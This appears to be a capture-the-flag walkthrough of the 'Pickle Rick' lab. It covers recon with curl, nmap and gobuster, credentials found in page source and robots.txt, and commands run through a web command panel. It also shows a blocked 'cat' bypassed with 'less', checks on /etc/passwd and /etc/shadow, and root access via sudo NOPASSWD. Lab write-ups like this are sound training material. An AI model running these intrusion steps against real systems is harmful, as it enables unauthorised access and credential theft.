 ==Pickle Rick   Flutter Aug 14 2021==


## Recon ##

Source code

curl http://$IP > home_source

Comment on line 28-34

    Note to self, remember username!

    Username: R1ckRul3s

Found username: R1ckRul3s


nmap -sV -sC -T5 -oN nmap_initial $IP

	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
		ssh-hostkey: 
			2048 83:eb:64:9b:ac:03:cd:94:e7:ba:27:b0:8b:dd:ba:96 (RSA)
			256 bd:45:f0:1f:4f:fb:28:ec:c5:54:80:2c:33:15:9d:02 (ECDSA)
			256 2c:b0:51:0e:a6:21:6e:61:91:3a:73:f3:6d:6c:bc:95 (EdDSA)

	80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
		http-server-header: Apache/2.4.18 (Ubuntu)
		http-title: Rick is sup4r cool


gobuster dir -u http://$IP -w directory-list-2.3-medium.txt -o gobuster_$IP

	/login.php (Status: 200)
	/index.html (Status: 200)
	/assets (Status: 301)
	/portal.php (Status: 302)
	/robots.txt (Status: 200)
	/denied.php (Status: 302)
	/server-status (Status: 403)
	/clue.txt (Status: 200)


/clue.txt

	Look around the file system for the other ingredient.


/robots.txt

	Wubbalubbadubdub

> uhhh... okay then, pass or user?


/login.php

	it's a login page


Trying to log in with R1ckRul3s:Wubbalubbadubdub
	
	Success!
	Redirect to portal.php

## Intrusion ##

/portal.php

	Command Panel

CPanel> uname;whoami;id;pwd

	Linux
	www-data
	uid=33(www-data) gid=33(www-data) groups=33(www-data)
	/var/www/html

CPanel> ls -la

	drwxr-xr-x 3 root   root   4096 Feb 10  2019 .
	drwxr-xr-x 3 root   root   4096 Feb 10  2019 ..
	-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
	drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
	-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
	-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
	-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
	-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
	-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
	-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt

CPanel> cat Sup3rS3cretPickl3Ingred.txt

	Command disabled

CPanel> less Sup3rS3cretPickl3Ingred.txt
	
	Flag Found

CPanel> ls -la /home

	drwxrwxrwx  2 root   root   4096 Feb 10  2019 rick
	drwxr-xr-x  4 ubuntu ubuntu 4096 Feb 10  2019 ubuntu

CPanel> ls -la /home/rick

	-rwxrwxrwx 1 root root   13 Feb 10  2019 second ingredients

CPanel> file /home/rick/second\ ingredients

	/home/rick/second ingredients: ASCII text

CPanel> less /home/rick/second\ ingredients

	Flag Found

## PrivEsc ##

CPanel> ls -la /etc/passwd; ls -la /etc/shadow

	-rw-r--r-- 1 root root 1615 Feb 10  2019 /etc/passwd
	-rw-r----- 1 root shadow 878 Aug 14 09:59 /etc/shadow
	
> eh not much new info here

CPanel> sudo -l

	(ALL) NOPASSWD: ALL
	
> oh, well that makes things easy


CPanel> sudo ls -la /root

	drwx------  4 root root 4096 Feb 10  2019 .
	drwxr-xr-x 23 root root 4096 Aug 14 09:59 ..
	-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
	-rw-r--r--  1 root root  148 Aug 17  2015 .profile
	drwx------  2 root root 4096 Feb 10  2019 .ssh
	-rw-r--r--  1 root root   29 Feb 10  2019 3rd.txt
	drwxr-xr-x  3 root root 4096 Feb 10  2019 snap

CPanel> sudo less /root/3rd.txt

	Flag found

## Credentials Gathered ##

R1ckRul3s:Wubbalubbadubdub during Recon
